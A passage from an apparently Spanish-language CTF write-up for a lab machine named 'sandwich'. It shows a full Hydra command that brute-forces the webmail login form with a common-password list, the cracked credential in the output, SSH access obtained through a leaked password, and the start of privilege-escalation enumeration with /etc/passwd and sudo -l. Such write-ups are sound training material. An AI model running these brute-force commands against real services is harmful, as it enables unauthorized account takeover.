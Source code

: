 Aunque el listado de usuarios parece pertenecer a ilustres maestros del hacking 😉, con todo el respeto del mundo, decidimos aventurarnos y usar Hydra con la lista de usuarios y el wordlist contra el webmail.

```bash
$ hydra -L users.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt webmail.sandwich.nyx http-post-form "/login.php:email=^USER^&password=^PASS^:Invalid credentials or user not found" -u -t 64 -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-30 19:19:59
[DATA] max 64 tasks per 1 server, overall 64 tasks, 50000 login tries (l:5/p:10000), ~782 tries per task
[DATA] attacking http-post-form://webmail.sandwich.nyx:80/login.php:email=^USER^&password=^PASS^:Invalid credentials or user not found
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 1385.00 tries/min, 1385 tries in 00:01h, 48615 to do in 00:36h, 64 active
[STATUS] 1382.00 tries/min, 4146 tries in 00:03h, 45854 to do in 00:34h, 64 active
[STATUS] 1382.00 tries/min, 9674 tries in 00:07h, 40326 to do in 00:30h, 64 active
[VERBOSE] Page redirected to http[s]://webmail.sandwich.nyx:80/inbox.php
[80][http-post-form] host: webmail.sandwich.nyx   login: matthygd_x@sandwich.nyx   password: qweasd

The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Después de 7 minutos 😅, encontramos la contraseña del webmail de `matthygd_x@sandwich.nyx`.

Ingresamos al webmail y podemos ver un mensaje que le ha enviado el administrador con la contraseña de su usuario SSH. 🔑

![alt text](/assets/sandwich/image-5.png)

Accedemos con las credenciales a través del servicio SSH.

## Escalada de matthygd_xy a ll104567

```bash
$ id ; echo; cat /etc/passwd|grep sh ; echo ; sudo -l
uid=1000(matthygd_xy) gid=1000(matthygd_xy) grupos=1000(matthygd_xy),100(users)

root:x:0:0:root:/root:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
matthygd_xy:x:1000:1000:,,,:/home/matthygd_xy:/bin/bash
ll104567:x:1001:1001:,,,:/home/ll104567:/bin/bash

Matching Defaults entries for matthygd_xy on sandwich:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User matthygd_xy may run the following commands on sandwich:
    (root) NOPASSWD: /bin/chvt
```
